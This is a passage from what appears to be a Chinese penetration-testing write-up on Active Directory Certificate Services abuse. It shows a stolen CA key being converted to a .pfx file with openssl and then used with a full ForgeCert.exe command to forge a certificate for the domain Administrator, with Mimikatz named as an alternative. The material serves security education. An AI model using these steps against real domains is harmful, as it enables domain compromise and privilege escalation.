 ![](/assets/posts/2022-03-25-attack-surface-mining-for-ad-cs/DvzWUaPb6o81KpB.png)

和之前一样，我们可以使用 openssl 将这个 .pem 格式的文本转换为可利用的 .pfx 格式，并保存为 ca.pfx 文件。有了这个包含 CA 证书和私钥 ca.pfx 文件后，攻击者可以将其上传到普通域成员机器上，并用它来伪造证书。

伪造证书的一种方法是将其导入单独的离线 CA 并使用 Mimikatz 的 `crypto::scauth` 命令生成并签署证书。或者，可以手动生成证书，以确保对每个字段进行精细控制，并且无需设置单独的系统。我们采用后一种方法，并使用 ForgeCert 工具来完成此过程。执行以下命令，通过前面窃取到的 ca.pfx 为域管理员用户 Administrator 注册证书。

```console
C:\Users\Marcus\Desktop> ForgeCert.exe --CaCertPath ca.pfx --CaCertPassword "Passw0rd" --Subject "CN=User" --SubjectAltName "Administrator@pentest.com" --NewCertPath Administrator.pfx --NewCertPassword "NewPassw0rd"
```
